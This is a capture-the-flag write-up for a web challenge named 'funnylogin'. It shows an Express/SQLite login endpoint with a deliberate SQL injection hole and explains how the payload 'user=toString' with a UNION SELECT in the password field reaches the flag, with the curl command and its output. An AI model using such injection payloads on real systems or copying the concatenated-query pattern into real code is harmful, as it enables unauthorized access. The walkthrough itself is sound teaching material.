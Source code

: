 We are given a Node.js project with a single app.js file:
```
const express = require('express');
const crypto = require('crypto');

const app = express();

const db = require('better-sqlite3')('db.sqlite3');
db.exec(`DROP TABLE IF EXISTS users;`);
db.exec(`CREATE TABLE users(
    id INTEGER PRIMARY KEY,
    username TEXT,
    password TEXT
);`);

const FLAG = process.env.FLAG || "dice{test_flag}";
const PORT = process.env.PORT || 3000;

const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));  
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
    const { user, pass } = req.body;

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
});

app.listen(PORT, () => console.log(`web/funnylogin listening on port ${PORT}`));
```


<b>Source code analysis</b>

In this challenge, the server creates 100000 random users and passwords and stores them in a users array and in a SQLite database:
```
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));  
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);
```
Next, it chooses one of the users at random and makes it administrator:
```
const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];  
isAdmin[newAdmin.user] = true;
```
There is only one endpoint at /api/login (POST). We are asked to log in using username and password (user and pass in the request body).

There is a clear SQL injection vulnerability here:

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`; 

However, we need to pass this if statement in order to get the flag:

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));  
        }

<b>Exploitation</b>

Notice that the id variable comes from the SQL query, whereas the user comes from the request body. Using the SQLi, we are able to make SQLite return some id (notice that we don’t know any of the users and passwords).

However, we don’t know any of the names in the database, how are we going to know the exact name of the administrator? Well, JavaScript is very lax, and there are many values that will evaluate to true inside an if statement. For instance, functions:

```
> eval
[Function: eval]
> Boolean(eval)
true
```

So, we can do the following:

```
> const isAdmin = {}
undefined
> isAdmin['asdf'] = true
true
> isAdmin.
isAdmin.__proto__             isAdmin.constructor           isAdmin.hasOwnProperty        isAdmin.isPrototypeOf         isAdmin.propertyIsEnumerable  
isAdmin.toLocaleString        isAdmin.toString              isAdmin.valueOf

isAdmin.asdf
```
As can be seen, if we hit TAB we will see some recommended values to continue the expression isAdmin. As a result, we get some functions that can be execute by an object in JavaScript. Plus, we can access them as object attributes:
```
> isAdmin['toString']
[Function: toString]
> Boolean(isAdmin['toString'])  
true
```
To sum up, we need to use the SQLi to make the query return any value and then use any of the object default functions to make isAdmin[user] evaluate to true.
Flag

The following payload will do the trick:
```
$ curl https://funnylogin.mc.ax/api/login -d "user=toString&pass='+UNION+SELECT+1--+-"  
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
```
